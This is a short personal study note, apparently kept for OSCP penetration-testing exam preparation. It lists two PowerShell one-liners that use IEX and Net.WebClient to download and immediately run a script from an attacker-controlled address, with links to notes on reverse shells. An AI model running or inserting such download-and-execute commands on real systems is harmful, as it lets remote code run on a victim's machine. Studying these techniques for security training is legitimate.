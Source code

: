 # powershell commands download and execute script
```
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')"
IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')
```

` zet/20221003151100/README.md `

# Related

- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003151101](/zet/20221003151101/README.md) powershell commands
- ~/kb/hacking/windows/windows-reverse-shell.md

Tags:

    #hacking #windows #windows 
